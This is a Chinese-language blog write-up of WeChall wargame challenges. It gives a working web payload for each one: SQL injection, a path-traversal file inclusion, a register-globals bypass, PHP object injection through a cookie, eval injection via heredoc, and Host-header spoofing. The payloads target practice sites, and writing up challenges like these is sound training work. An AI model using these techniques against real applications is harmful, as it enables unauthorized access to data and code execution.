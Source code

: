 title: WeChall Writeup
date: 2015-08-07 17:01:53
tags: Wechall
categories: H-blog
---
> 年轻人，要多撸题，多看书，少打游戏，少打炮..

<!--more-->

## 0x00 No Escape

看源码, 是sql注入.
payload: `index.php?vote_for=bill`=111%23`

## 0x01 Training: PHP LFI

看源码, 文件包含漏洞.
payload: `index.php?file=../../solution.php%00`

## 0x02 PHP 0817

这个比较傻..不多说.
payload: `index.php?which=solution`

##0x03 Training: Register Globals

全局变量的问题,,上次看到过,,不过现在的php已经没这漏洞了...(PHP还是那么老版本的活该..)
payload: `globals.php?login[]=admin`

## 0x04 Are you serial

这个有点屌...放代码吧..
```php
<?php
function my_autoloader($classname)
{
        require_once './'.str_replace('.', '', $classname).'.php';
}
function cece($name){
	echo $name;
}
spl_autoload_register('cece');
 #spl_autoload_register('my_autoloader');
$user = unserialize('O:7:"phpinfo":0:{}');
```
这题的重点就在于 `spl_autoload_register` 这个函数. 
解序列化后的如果有类, 而且当前程序中未定义该类, 则会自动把该类的名称传值到 (`sql_autoload_register(xxx)`) xxx函数中.
这题只要能运行 `SERIAL_Solution.php` 这个文件就算成功

所以最后的payload是改cookie, 
`serial_user` 的值为 `O:15:"SERIAL_Solution":0:{}`

## 0x05 PHP 0819

第一次知道php还有这鬼东西....heredoc

```php
echo <<<suibian
正文
正文
suibian;
// 格式应该是 <<<+任意字符x+换行+字符串+换行+任意字符x+;
```

这题的目的 `eval("\$spaceone='1337';");`
但是引号都被过滤了...所以就可以用上面的那个代替引号...这里由于`eval`的原因, 结尾还要再来一个换行
payload: `index.php?eval=<<<r%0a1337%0ar;%0a`

## 0x06 HOST me 

这题一看就知道是去改host, 不过比较坑....改成 `host:localhost` 后会报错...纠结了好久..
网上查了以下才知道...需要....
payload:
```
 //只把要修改的行列出来
 GET http://www.wechall.net/challenge/space/host_me/index.php HTTP/1.1
 Host: localhost
```

## 0x07 PHP 0815

这题有点屌...这题的大概意思是它给你的代码存在sqli, 然后让你给出修补的方案, 要给出最短, 还不会影响原程序的方案...
表示并不会, 只看出了应该是修改 `in_array` 这里..
到网上搜索后才知道, 需要把 `$show` 转换为int 型, 有 `int()` 和 `intval()` 然而答案要最短, 
最短的黑魔法.... --> `$show - 0`
提交 `in_array($show-0, $whitelist)` 竟然不对...坑爹的...最后提交 `-0` 过了..

最后, 我在想,, 这脚本有sqli? 怎么日? ....然后试了一下...果然有...
```php
 #code.php?show=1%20union%20select%201%23
 Query: SELECT 1 FROM `table` WHERE `id`=1 union select 1#
 SHOWING NUMBER 1 union select 1#
```

<!--## 0x08 Stop us-->

